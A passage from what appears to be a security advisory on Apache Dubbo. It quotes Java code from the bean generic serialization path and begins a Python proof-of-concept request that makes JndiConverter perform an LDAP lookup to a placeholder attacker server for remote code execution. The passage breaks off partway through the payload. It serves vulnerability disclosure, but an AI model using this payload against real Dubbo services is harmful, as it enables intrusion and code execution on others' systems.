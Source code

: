 <p>In a similar way, we can set the <code class="language-plaintext highlighter-rouge">generic</code> attachment to <code class="language-plaintext highlighter-rouge">bean</code> to reach the following code:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  <span class="o">}</span> <span class="k">else</span> <span class="k">if</span> <span class="o">(</span><span class="nc">ProtocolUtils</span><span class="o">.</span><span class="na">isBeanGenericSerialization</span><span class="o">(</span><span class="n">generic</span><span class="o">))</span> <span class="o">{</span>
      <span class="k">for</span> <span class="o">(</span><span class="kt">int</span> <span class="n">i</span> <span class="o">=</span> <span class="mi">0</span><span class="o">;</span> <span class="n">i</span> <span class="o">&lt;</span> <span class="n">args</span><span class="o">.</span><span class="na">length</span><span class="o">;</span> <span class="n">i</span><span class="o">++)</span> <span class="o">{</span>
          <span class="k">if</span> <span class="o">(</span><span class="n">args</span><span class="o">[</span><span class="n">i</span><span class="o">]</span> <span class="k">instanceof</span> <span class="nc">JavaBeanDescriptor</span><span class="o">)</span> <span class="o">{</span>
              <span class="n">args</span><span class="o">[</span><span class="n">i</span><span class="o">]</span> <span class="o">=</span> <span class="nc">JavaBeanSerializeUtil</span><span class="o">.</span><span class="na">deserialize</span><span class="o">((</span><span class="nc">JavaBeanDescriptor</span><span class="o">)</span> <span class="n">args</span><span class="o">[</span><span class="n">i</span><span class="o">]);</span>
          <span class="o">}</span> <span class="k">else</span> <span class="o">{</span>
              <span class="k">throw</span> <span class="k">new</span> <span class="nf">RpcException</span><span class="o">(</span>
                      <span class="s">"Generic serialization ["</span> <span class="o">+</span>
                              <span class="no">GENERIC_SERIALIZATION_BEAN</span> <span class="o">+</span>
                              <span class="s">"] only support message type "</span> <span class="o">+</span>
                              <span class="nc">JavaBeanDescriptor</span><span class="o">.</span><span class="na">class</span><span class="o">.</span><span class="na">getName</span><span class="o">()</span> <span class="o">+</span>
                              <span class="s">" and your message type is "</span> <span class="o">+</span>
                              <span class="n">args</span><span class="o">[</span><span class="n">i</span><span class="o">].</span><span class="na">getClass</span><span class="o">().</span><span class="na">getName</span><span class="o">());</span>
          <span class="o">}</span>
      <span class="o">}</span>
  <span class="o">}</span>
</code></pre></div></div>

<p>In this case, <code class="language-plaintext highlighter-rouge">JavaBeanSerializerUtil.deserialize</code> will also allow us to invoke default constructors of arbitrary classes and then call setters or set field values for the constructed objects. 
For example, using the python client we can send the following request which will result into an arbitrary JNDI lookup call leading to RCE:</p>

<div class="language-python highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  <span class="n">beanDescriptor</span><span class="o">=</span><span class="n">new_object</span><span class="p">(</span>
        <span class="s">'org.apache.dubbo.common.beanutil.JavaBeanDescriptor'</span><span class="p">,</span>
        <span class="n">className</span><span class="o">=</span><span class="s">"org.apache.xbean.propertyeditor.JndiConverter"</span><span class="p">,</span>
        <span class="nb">type</span><span class="o">=</span><span class="mi">7</span><span class="p">,</span>
        <span class="n">properties</span><span class="o">=</span><span class="p">{</span><span class="s">"asText"</span><span class="p">:</span> <span class="s">"ldap://&lt;attacker_server&gt;/foo"</span><span class="p">}</span>
        <span class="p">)</span>
